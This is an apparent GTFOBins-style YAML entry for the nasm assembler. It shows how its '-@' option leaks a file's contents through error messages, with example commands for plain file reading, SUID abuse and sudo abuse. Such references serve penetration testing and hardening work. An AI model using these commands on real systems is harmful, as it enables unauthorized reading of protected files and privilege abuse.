 ```yaml
---
description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nasm -@ $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nasm -@ $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nasm @$LFILE
---
```

